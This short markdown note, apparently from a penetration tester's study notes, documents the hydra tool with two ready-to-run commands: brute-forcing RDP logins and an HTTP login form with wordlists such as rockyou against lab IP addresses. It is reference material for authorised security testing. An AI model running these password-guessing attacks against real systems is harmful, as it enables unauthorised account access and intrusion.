 ```yaml
---
tags:
  - tool
  - web
  - brute_forcing
---
```

# hydra

Brute force services

## Capabilities

```bash
# Brute force RDP
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202

# Brute force HTTP post request
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

Note: `L` and `P` are used for username and password respectively, lowercase either of them to specify a single value